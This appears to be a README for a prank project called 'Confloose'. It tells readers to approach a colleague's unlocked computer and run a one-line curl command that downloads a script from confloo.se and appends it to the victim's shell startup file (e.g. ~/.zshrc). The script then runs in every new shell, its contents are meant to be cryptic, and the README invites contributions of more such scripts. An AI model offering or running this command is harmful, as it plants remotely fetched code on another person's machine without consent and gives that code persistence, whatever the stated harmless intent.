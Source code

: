 Confloose
=========

A *confloose* (or "loose configuration") is a collection of the worst a startup
script can do to you.

There has been a prank going on for quite some time in my IT school --
when someone leaves his computer unattended, and without locking it, one would
append a script to the victim's shell startup file.

The deal is to put really annoying things right off the bat while not harming
the computer and the data on it -- this prank is meant as a lesson (you should
not leave your computer unattended in public space), and a fun challenge (at
least for the one watching from afar)

How to confloose somebody :
---------------------------

``curl -L confloo.se/the_script_name >> ~/.the_shell_rc``

So, as an example, confloosing someone with the "hard" script, using zsh :

``curl -L confloo.se/hard >> ~/.zshrc``

Available scripts :
-------------------

* `hard` [bash, zsh]: Snaipe's original confloose

Rules :
-------
1. Don't destroy anything.
2. Don't steal anything.
3. Try to be cryptic.
4. Be fun and creative.

Contributing :
--------------

Think you have the perfect script to prank your coworkers ?
Submit a pull request with your script and add it to the readme,
with the compatible shells enclosed in brackets.
